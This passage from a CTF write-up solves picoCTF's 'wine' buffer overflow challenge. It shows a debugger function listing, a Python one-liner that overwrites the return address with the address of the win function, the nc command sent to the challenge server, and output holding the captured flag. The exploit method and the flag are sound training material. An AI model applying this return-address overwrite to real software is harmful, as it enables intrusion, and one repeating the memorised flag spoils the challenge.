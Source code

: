 ```
0x00401500  __gcc_register_frame
0x00401520  __gcc_deregister_frame
0x00401530  win
0x004015a9  vuln
0x004015cf  main
0x00402630  __chkstk_ms
0x0040265c  vfprintf
0x00402664  strncmp
0x0040266c  strlen
0x00402674  signal
0x0040267c  setvbuf
0x00402684  puts
0x0040268c  memcpy
0x00402694  malloc
0x0040269c  gets
0x004026a4  fwrite
0x004026ac  free
0x004026b4  fprintf
0x004026bc  fopen
0x004026c4  fgets
0x004026cc  fflush
0x004026d4  exit
0x004026dc  calloc
0x004026e4  abort
0x004026ec  _onexit
0x004026f4  _initterm
0x004026fc  _cexit
0x00402704  _amsg_exit
0x0040270c  __setusermatherr
0x00402714  __set_app_type
0x0040271c  __p__fmode
0x00402724  __p__acmdln
0x0040272c  __getmainargs
0x00402770  register_frame_ctor
0x00402780  _CTOR_LIST__
0x0040278c  _DTOR_LIST__
gef➤
```

Now here's the exploit command, I didn't really put it in form of a python exploit script i had problem receiving the flag part 😞

```
Payload: (python -c "print 'A'*140 +'\x30\x15\x40'")
```

So i'll run that on the remote server

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/wine]
└─$ (python -c "print 'A'*140 +'\x30\x15\x40'") | nc saturn.picoctf.net 57604 
Give me a string!
picoCTF{Un_v3rr3_d3_v1n_1b905d38}
Unhandled exception: page fault on read access to 0x7fec39e0 in 32-bit code (0x7fec39e0).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:7fec39e0 ESP:0064fe84 EBP:41414141 EFLAGS:00010206(  R- --  I   - -P- )
 EAX:00000000 EBX:00230e78 ECX:0064fe14 EDX:7fec48f4
 ESI:00000005 EDI:0021d6c8
Stack dump:
0x0064fe84:  00000000 00000004 00000000 7b432ecc
0x0064fe94:  00230e78 0064ff28 00401386 00000002
0x0064fea4:  00230e70 006d0da0 7bcc4625 00000004
0x0064feb4:  00000008 00230e70 0021d6c8 006143f8
0x0064fec4:  0da0d1b0 00000000 00000000 00000000
```
